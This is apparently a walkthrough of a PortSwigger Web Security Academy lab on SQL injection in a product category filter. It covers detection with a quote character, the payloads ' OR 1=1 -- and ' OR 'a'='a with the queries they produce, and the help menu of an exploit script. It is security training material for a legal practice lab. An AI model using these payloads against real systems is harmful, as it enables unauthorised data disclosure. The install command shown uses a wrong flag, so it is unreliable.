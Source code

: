 \+ Lab #1    : SQL injection in WHERE clause\
\+ Lab Level : Apprentice\
\+ Link      : https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data \


## About:
This lab contains a [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following: 
```SQL
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
To solve the lab, perform a SQL injection attack that causes the application to display details of all products in any category, both released and unreleased. 

## Detection: 
* Submit a single quotation mark ```'``` in ```/filter?category=Gifts``` to break out the original SQL query quotation marks and cause an error
* The resulting query sent by the App to the back-end database:
```SQL
SELECT * FROM products WHERE category = 'Gifts'' AND released = 1
```
* The App returns a ```500 Internal Server Error``` response, which means that an error has occured in the back-end while processing the query.
* The ```category``` parameter is vulnerable to SQL injection.

## Exploitation:
### Manual:
1. Intercept the request with Burp Suite proxy
2. Send the request to repeater
3. Inject the ```category``` parameter with the following payload: ``` ' OR 1=1 --``` 
4. The resulting SQL query sent by the App to the backend database: 
```SQL
SELECT * FROM products WHERE category = '' OR 1=1 --' AND released = 1
SELECT * FROM products WHERE category = '' OR 1=1
```
> :memo: **Note:** The following payload ```' OR 'a'='a``` is also valid and achieves the same result as the 1=1 attack to return all products, regardless of whether they have been released.
```SQL
SELECT * FROM products WHERE category = '' OR 'a'='a' AND released = 1 
```

### Automated:
* Refer to https://github.com/YounesTasra-R4z3rSw0rd/Web-Security-Academy/blob/main/SQL%20Injection/Lab%231/Lab-1.py
* Requirements:
```bash
pip3 install -m requirements.txt
```
* Help Menu: 
```bash
$ python3 Lab-1.py --help
usage: Lab-1.py [-h] -u URL [-n]

Usage Example: python3 SQLi-Lab#1.py --url https://0a2100.web-security-academy.net/ --no-proxy

options:
  -h, --help         show this help message and exit
  -u URL, --url URL  Enter the Lab URL
  -n, --no-proxy     Do not use proxy                               
```
